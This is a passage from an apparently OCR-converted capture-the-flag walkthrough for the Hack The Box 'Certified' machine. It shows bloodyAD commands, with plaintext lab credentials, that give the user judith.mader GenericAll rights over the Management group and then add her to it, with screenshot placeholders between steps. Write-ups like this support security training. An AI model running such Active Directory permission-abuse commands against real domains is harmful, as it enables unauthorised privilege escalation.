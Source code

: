 >
> ![](images/media/image20.png){width="3.170615704286964in"
> height="1.0854199475065618in"}

2.  Add **Generic All for Judith.Mader on MANAGEMENT**

> **RUN:** **python3 run_bloodyAD.py \--host 10.10.11.41 -d
> certified.htb -u judith.mader -p judith09 add genericAll
> \"CN=Management,CN=Users,DC=certified,DC=htb\" \"CN=Judith
> Mader,CN=Users,DC=certified,DC=htb\"**
>
> ![](images/media/image21.png){width="6.2972222222222225in"
> height="0.3909722222222222in"}
>
> ![](images/media/image22.png){width="3.2274879702537183in"
> height="1.0732195975503063in"}

3.  Add **Group Member**

> **INFO:** If this succeeds, skip next STEP 4
>
> **RUN:** **python3 run_bloodyAD.py \--host 10.10.11.41 -d
> certified.htb -u judith.mader -p judith09 add groupMember
> \"CN=Management,CN=Users,DC=certified,DC=htb\" \"CN=Judith
> Mader,CN=Users,DC=certified,DC=htb\"**
>
> ![](images/media/image23.png){width="6.2972222222222225in"
> height="0.38055555555555554in"}
